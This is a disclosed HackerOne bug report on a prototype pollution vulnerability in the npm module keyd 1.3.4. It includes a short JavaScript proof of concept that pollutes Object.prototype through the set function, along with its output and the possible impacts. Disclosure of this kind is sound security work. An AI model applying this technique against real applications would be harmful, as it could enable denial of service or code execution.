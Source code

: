 # [keyd] Prototype pollution

## Report Details
- **Report ID**: 877515
- **URL**: https://hackerone.com/reports/877515
- **State**: Closed
- **Severity**: high
- **Submitted**: 2020-05-18T19:58:29.357Z
- **Disclosed**: 2020-09-14T10:51:47.788Z

## Reporter
- **Username**: d3lla
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report a `prototype pollution` vulnerability in `keyd` module.
It allows an attacker to inject properties on Object.prototype.

# Module

**module name:** `keyd`
**version:** `1.3.4`
**npm page:** `https://www.npmjs.com/package/keyd`

## Module Description

A small library for using and manipulating key paths in JavaScript.

## Module Stats

[71] weekly downloads

# Vulnerability

## Vulnerability Description

The `set` function can be used to add/modify properties of the Object prototype. These properties will be present on all objects.

## Steps To Reproduce:
- install `keyd` module:
    - `npm i keyd`

Set the `__proto__.polluted` property of an object:
```javascript

const keyd = require('keyd');
const obj = {};
console.log("Before : " + obj.polluted);
keyd({}).set('__proto__.polluted', 'yes');
console.log("After : " + obj.polluted);
```
Output:
```console

Before : undefined
After : yes
```
{F833532}

## Supporting Material/References:

- OPERATING SYSTEM VERSION: Ubuntu 18.04.4 LTS
- NODEJS VERSION: v14.1.0
- NPM VERSION: 6.14.5

# Wrap up

- I contacted the maintainer to let them know: [N] 
- I opened an issue in the related repository: [N] 


Thank you for your time.

best regards,

d3lla

## Impact

The impact depends on the application. In some cases it is possible to achieve Denial of service (DoS), Remote Code Execution, Property Injection.

## Attachments
- keyd_poc.mov
